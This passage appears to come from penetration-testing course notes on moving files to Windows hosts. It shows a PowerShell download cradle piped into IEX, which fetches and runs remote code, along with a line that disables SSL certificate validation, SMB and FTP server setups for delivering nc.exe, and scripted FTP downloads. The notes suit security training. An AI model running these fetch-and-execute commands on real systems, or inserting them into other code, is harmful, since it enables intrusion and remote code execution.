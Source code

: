       ```powershell
      Invoke-WebRequest https://<URL> -OutFile <OutputPath>
      ```
- **Errors**:
  - **IE Configuration**: Bypass with `-UseBasicParsing`.
    ```powershell
    Invoke-WebRequest https://<URL> -UseBasicParsing | IEX
    ```
  - **SSL/TLS**: Bypass certificate validation.
    ```powershell
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }
    ```
- **Resources**: Harmjoy’s PowerShell download cradles for nuanced options.

### SMB Downloads
- **Protocol**: SMB on TCP/445, common in Windows networks.
- **Setup**:
  - Create SMB server (Pwnbox):
    ```bash
    sudo impacket-smbserver share -smb2support /tmp/smbshare
    ```
  - Copy file:
    ```cmd
    copy \\<IP>\share\nc.exe
    ```
- **Authentication**:
  - Newer Windows blocks guest access.
  - Use credentials:
    ```bash
    sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
    ```
    ```cmd
    net use n: \\<IP>\share /user:test test
    copy n:\nc.exe
    ```

### FTP Downloads
- **Protocol**: FTP on TCP/20, TCP/21.
- **Setup**:
  - Install/run FTP server:
    ```bash
    sudo pip3 install pyftpdlib
    sudo python3 -m pyftpdlib --port 21
    ```
  - Download with PowerShell:
    ```powershell
    (New-Object Net.WebClient).DownloadFile('ftp://<IP>/file.txt', 'C:\file.txt')
    ```
  - Non-interactive FTP:
    - Create `ftpcommand.txt`:
      ```cmd
      echo open <IP> > ftpcommand.txt
      echo USER anonymous >> ftpcommand.txt
      echo binary >> ftpcommand.txt
      echo GET file.txt >> ftpcommand.txt
      echo bye >> ftpcommand.txt
      ```
    - Execute:
      ```cmd
      ftp -v -n -s:ftpcommand.txt
      ```
